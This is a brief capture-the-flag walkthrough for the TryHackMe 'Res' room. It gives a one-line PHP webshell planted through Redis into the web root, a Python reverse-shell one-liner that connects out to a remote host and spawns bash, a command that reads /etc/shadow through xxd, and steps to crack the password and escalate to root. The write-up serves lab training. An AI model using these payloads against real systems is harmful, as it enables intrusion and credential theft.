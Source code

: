 # [Res](https://tryhackme.com/room/res)


### Task 5 Compromise the machine and locate user.txt
0. [HackTricks Webshell](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#webshell)
1. Apache writeable path `/var/www/html`
2. Connecting via `redis-cli` or `netcat`
```
redis-cli -h $ip
nc -vn $ip $port
```
3. Then one line php webshell `"<?php system($_GET['cmd']); ?>"`

### Task 6 What is the local user account password?
1. First get a reverse shell from webshell. `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`
2. Run `Linpeas.sh` found the intersting file `xxd`. https://gtfobins.github.io/gtfobins/xxd/
3. 
```
LFILE=/etc/shadow
xxd "$LFILE" | xxd -r
```
4. Crack the password. `su user` the `sudo su` get the root
